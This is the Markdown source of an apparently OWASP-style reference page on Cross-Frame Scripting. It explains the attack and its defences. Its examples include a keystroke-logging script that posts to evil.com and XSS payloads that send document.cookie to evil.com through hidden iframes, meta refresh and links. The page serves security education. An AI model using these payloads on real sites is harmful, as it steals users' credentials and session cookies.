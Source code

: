 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting.md
author: 
contributors: 
permalink: /attacks/Cross_Frame_Scripting
tag: attack, Cross Frame Scripting.md
auto-migrated: 1

---
```


## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as he or she tries to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like he or she is actually visiting example.com The
attacker registers some javascript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

    <!-- http://evil.com/example.com-login.html -->
    <head>
    <script>
    // array of user keystrokes
    var keystrokes = [];
    // event listener which captures user keystrokes
    document.onkeypress = function() {
        keystrokes.push(window.event.keyCode);
    }
    // function which reports keytrokes back to evil.com every second
    setInterval(function() {
        if (keystrokes.length) {
            var xhr = newXHR();
            xhr.open("POST", "http://evil.com/k");
            xhr.send(keystrokes.join("+"));
        }
        keystrokes = [];
    }, 1000);
    // function which creates an ajax request object
    function newXHR() {
        if (window.XMLHttpRequest)
            return new XMLHttpRequest();
        return new ActiveXObject("MSXML2.XMLHTTP.3.0");
    }
    </script>
    </head>
    <!-- re-focusing to this frameset tricks browser into leaking events -->
    <frameset onload="this.focus()" onblur="this.focus()">
    <!-- frame which embeds example.com login page -->
    <frame src="http://example.com/login.html">
    </frameset>

### XSS Attack Using Frames

To exploit a [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some javascript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

    <iframe style="position:absolute;top:-9999px" src="http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

The iframe is hidden off-screen, so the browser user won't have any idea
that he or she just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

    <meta http-eqiv="refresh" content="1;url=http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>">

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that he
or she just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that he or she is visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some javascript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

    http://example.com/flawed-page.html?=<iframe src="↵
        javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

  - An XFS attack generally is carried out by a malicious
    [:Category:Internet
    attacker](:Category:Internet_attacker "wikilink").
  - An XFS attack exploiting a browser bug which leaks events across
    frames is similar to an attack which uses conventional key-logging
    software.

## Related Attacks

  - An attacker might use a hidden frame to carry out a [Cross-site
    Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink") attack.
  - An attacker might use a hidden frame to carry out a [Cross-Site
    Request Forgery
    (CSRF)](Cross-Site_Request_Forgery_\(CSRF\) "wikilink") attack.
  - An attacker might use a visible frame to carry out a
    [Clickjacking](Clickjacking "wikilink") attack.
  - An XFS attack exploiting a browser bug which leaks events across
    frames is a form of a [Phishing](Phishing "wikilink") attack (the
    attacker lures the user into typing-in sensitive information into a
    frame containing a legitimate third-party page).

## Related Vulnerabilities

  - XFS attacks exploit specific browser bugs.

## Related Controls

  - XFS attacks may denied by preventing the third-party web page from
    being framed; the techniques used to do this are the same as those
    used for [Clickjacking Protection for Java
    EE](Clickjacking_Protection_for_Java_EE "wikilink").

## References

  - MSDN article [About Cross-Frame Scripting and
    Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
  - iDefense Labs advisory [Microsoft Internet Explorer Cross Frame
    Scripting Restriction
    Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)

[Category:Attack](Category:Attack "wikilink")